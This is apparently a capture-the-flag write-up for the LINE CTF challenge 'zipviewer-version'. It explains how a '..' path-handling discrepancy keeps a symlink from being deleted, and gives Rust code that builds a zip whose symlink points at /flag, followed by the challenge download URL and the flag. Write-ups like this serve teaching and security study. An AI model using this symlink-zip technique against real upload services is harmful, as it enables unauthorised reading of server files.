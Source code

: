# zipviewer-version

If the path of the file contains `..`, it is handled differently during the unzipping and the entry listing.
We can exploit this discrepancy to prevent a symbolic link file from being deleted.

Here is a Rust code that generates such a zip file:

```rust
use std::io::Cursor;

use zip::write::FileOptions;

fn main() -> anyhow::Result<()> {
    let mut buffer = Vec::new();
    {
        let mut zip = zip::ZipWriter::new(Cursor::new(&mut buffer));

        zip.start_file("flag", FileOptions::default())?;

        zip.start_file("middle/flag", FileOptions::default())?;
        zip.add_symlink("middle/../a", "/flag", FileOptions::default())?;

        zip.finish()?;
    }

    std::fs::write("prepare.zip", &buffer)?;

    Ok(())
}
```

After uploading this zip file, the flag can be downloaded at `http://35.243.120.91:11001/download/a`.

Flag: `LINECTF{34d98811f9f20094d1cc75af9299e636}`
